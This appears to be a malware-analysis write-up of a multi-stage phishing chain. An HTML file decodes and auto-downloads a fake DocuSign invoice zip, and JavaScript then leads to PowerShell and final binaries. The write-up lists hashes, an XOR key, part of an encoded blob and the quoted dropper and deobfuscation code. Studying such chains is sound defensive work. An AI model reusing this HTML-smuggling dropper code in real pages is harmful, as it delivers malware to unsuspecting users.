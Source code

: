 ```yaml
---
title: Manually Adding PPA In ParrotOS
published: true
---
```


# STAGE 1:
	`064ee9cc4256a4e004d3c6e74e1a4cc2d686f82a7e22640aa718167b5af40a29  ./sample.html `

this is a HTML file containing the javascript code that drops a zip file,
we can see in the body section it's the payload that is encrypted, the id is `jzasjnpc` & class is `bwkytcnl`.
this is the excrypted zip file, first it's getting converted from base64 & then xor & then base64 decoded again.
the xor key for this zip payload is `so83fnguk42vuluw82syq55zhqqf3qm9sznw3skkxdfbcj2fjy1zbi6t4wn89m8kafg1kvi04dppc1q5xye8zzxo4k6utjrwwsc2f59khfmzkvycg8qxwl36asncitbj`,

```html
<body>
	<main class="bwkytcnl" id="jzasjnpc" data="JipLdyQsNjEqdXM/NCo/QEleEiA9UUYjQzcGJ3IhB3AyOy8ScjIqKiwzIFcuPnMSJxNwAy8QBz5WGTROWDp2By0zNUcyRT9kVTMUBS9cAU8uM....
```
name of the zip file is `May10-2023-Invoice-DocuSign.zip`

this is the procedure that generates the zip file, and in the end that object is executed
```javascript
	function extract_zip(input_url_var, 512)
	{

		var array_new = [];
		var fromb64input_data = atob_fromB64(input_url_var);
		for(var i = 0; i < fromb64input_data.length; i += 512)
		{
			var sliced = fromb64input_data.slice(i, i + 512);
			var sliced_array = new this[array](sliced.length);
			for(var i = 0; i < sliced.length; i++)
			{
				sliced_array[i] = sliced.charCodeAt(i);
			}
			var out_zip = new this[Uint8Array](sliced_array);
			array_new.push(out_zip);
		}
		var zip_data = new this[blob](array_new, {type: octet/stream});
		return zip_data;
	}
	
	function zip_create(zip_data)
	{
		let zip_name = "May10-2023-Invoice-DocuSign" + ".zip";
		let file_obj = new this[file]([zip_data], zip_name, {type: application/zip});
		let file_obj_url = this[URL][createObjectURL](file_obj);
		var createElement_a = document.createElement("a");
		document.body.appendChild(createElement_a);
		createElement_a.setAttribute(href,file_obj_url);
        		createElement_a[download] = zip_name;
                createElement_a.click();
		this[URL][revokeObjectURL](file_obj_url);
	}
```

# STAGE 2:
	`a36c8ea0188ddc3ed8f06c8e352bb314bc222fef6f9baeb211cd97ac62462dec  May10-2023-Invoice-DocuSign.zip`

this zip file contains a javascript file.
	`44737c01c93b96afcbb96c0b38993594d29a0a07d625999ef503c8424da90b0e  ./May10-2023-Invoice-DocuSign.js`

this javascript file contains 4 strings, after concatinating them and after removing "s" & "V" chars & then converting from hex,
gets us another javascript. this is the procedure of that
```javascript
	temp = STR_4.replace(/[sV]/g,'');
	var ooqajrjz = "";
	for (var i=0;i<temp.length;i+=2)
	{
		ttjqepbj = temp.substr(i,2);
		ooqajrjz += str_from_char_code(kmbvxuoa(ttjqepbj, 16));
	}
```

# STAGE 3:
	this javascript produces a powershell script that is run after 10 seconds of sleep, poweshell script is split by "!" and converted from base64


# STAGE 4:
	this powershell script runs a string that is base64 encoded & raw deflated.

# STAGE 5:
	


a0bf6f09f394949c603b878ab42b001155d347e5812b59f09a2ab9d387d548f6  ./a0bf6f09f394949c603b878ab42b001155d347e5812b59f09a2ab9d387d548f6.docx
f2354328324b94918311ef7a13e9c207b75f848bcaadebe7f4753f3d5fcfc63d  ./Base64FormattingOpti.exe.bin
c720d8d87e5744ef459c160ae3ae85984519c5cee89d4acd3d4156f929ebcca2  ./Cerbera.dll
bdddec1e08a612296a6caa2cb79749150e4b6797f6cca9b7f255ae11cfc4398f  ./IVectorView.dll
EA6D52270F7D5AEC22FD17F1904F2DFFD566016A4362D9D5EA81C1D11337DE9E  ./happy.exe 